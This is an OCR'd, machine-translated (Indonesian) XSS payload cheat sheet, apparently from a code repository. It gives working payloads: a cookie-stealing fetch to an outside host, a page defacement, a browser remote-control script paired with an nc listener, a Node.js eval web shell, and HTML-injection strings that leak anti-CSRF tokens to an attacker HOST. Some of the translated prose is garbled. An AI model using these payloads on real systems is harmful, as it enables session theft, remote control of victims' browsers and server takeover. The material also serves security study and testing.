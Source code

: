        fetch('//brutelogic.com.br/?c='+document.cookie)

> Simple Virtual Defacement

Gunakan untuk mengubah bagaimana situs akan muncul ke korban menyediakan kode HTML. Dalam contoh di bawah ini a

Pesan "Tidak Ditemukan" ditampilkan.

       documentElement.innerHTML='<h1>Not Found</h1>'

> Browser Remote Control

Gunakan untuk menghubungkan browser dan mengirim perintah javascript ke dalamnya secara interaktif. Gunakan javascript

kode di bawah ini bukannya peringatan (1) dalam injeksi Anda dengan terminal seperti Unix yang terbuka dengan

mengikuti skrip shell (pendengar). Berikan HOST sebagai nama host, alamat IP, atau domain ke

menerima perintah dari mesin penyerang.

       => Javascript (payload):
    
       setInterval(function(){with(document)body.
    
       appendChild(createElement('script')).src='//HOST:5855'},100)

=> Listener (terminal command):

       $ while :; do printf "j$ "; read c; echo $c | nc -lp 5855 >/dev/null; done 

> Node.js Web Shell

Gunakan untuk membuat shell web di aplikasi Node.js yang rentan. Setelah menjalankan payload di bawah ini

gunakan shell dengan cara berikut: http: // target: 5855 /? cmd = my_node.js_command

Contoh untuk pop calc: cmd = membutuhkan ('child_process'). Exec ('gnome-calculator').

       require('http').createServer(function(req,res){res.end(1-
    
       eval(require('url').parse(req.url,1).query.cmd))}).listen(5855)

> HTMLi Token Leak

Gunakan ketika XSS tidak memungkinkan tetapi beberapa injeksi HTML mungkin terjadi. Itu akan memeras apa pun

token anti-CSRF (atau nilai rahasia lainnya) yang mungkin ada di antara berbasis sumber

refleksi dan kutipan tunggal berikutnya dalam kode asli. Berikan HOST dengan skrip untuk meraih

parameter token atau periksa log server. Terlepas dari contoh di bawah ini, <img atau <tag gambar dengan

src = 'atau srcset =' juga melakukan pekerjaan itu.

       <x style='content:url(//HOST/?token=
    
       <x style='background:url(//HOST/?token=
    
       <x style='background-image:url(//HOST/?token=
